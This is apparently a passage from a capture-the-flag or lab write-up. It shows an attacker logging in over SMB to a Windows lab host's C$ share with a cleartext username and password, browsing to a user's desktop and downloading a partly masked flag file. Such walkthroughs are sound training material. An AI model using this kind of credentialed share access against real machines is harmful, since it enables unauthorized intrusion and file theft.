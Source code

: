 ![Victim: zximena448](https://custom-icon-badges.demolab.com/badge/Victim-zximena448-64b5f6?logo=windows11&logoColor=white)

`smbclient -U 'zximena448' --password='internet' //192.168.56.103/C$`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  $WinREAgent                        DH        0  Sat Jun 15 15:19:51 2024
  Documents and Settings          DHSrn        0  Sat Jun 15 22:51:08 2024
  DumpStack.log.tmp                 AHS    12288  Wed Sep  4 12:42:13 2024
  pagefile.sys                      AHS 1476395008  Wed Sep  4 12:42:13 2024
  PerfLogs                            D        0  Sat May  8 04:15:05 2021
  Program Files                      DR        0  Sat Jun 15 13:54:31 2024
  Program Files (x86)                 D        0  Sat May  8 05:34:13 2021
  ProgramData                       DHn        0  Sat Jun 15 22:51:08 2024
  Recovery                         DHSn        0  Sat Jun 15 22:51:08 2024
  System Volume Information         DHS        0  Sat Jun 15 15:02:21 2024
  Users                              DR        0  Mon Jun 17 14:31:08 2024
  Windows                             D        0  Sat Jun 15 15:21:10 2024

                12942591 blocks of size 4096. 10915881 blocks available
smb: \> cd Users\zximena448\Desktop\
smb: \Users\zximena448\Desktop\> dir
  .                                  DR        0  Mon Jun 17 14:31:24 2024
  ..                                  D        0  Mon Jun 17 14:30:22 2024
  desktop.ini                       AHS      282  Mon Jun 17 14:30:22 2024
  user.txt                            A       33  Wed Jun 12 16:01:30 2024 ←

                12942591 blocks of size 4096. 10915862 blocks available
smb: \Users\zximena448\Desktop\> get user.txt ←
getting file \Users\zximena448\Desktop\user.txt of size 33 as user.txt (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
smb: \Users\zximena448\Desktop\> exit
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`cat ./user.txt`:
```
2fe79*************************** ←
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

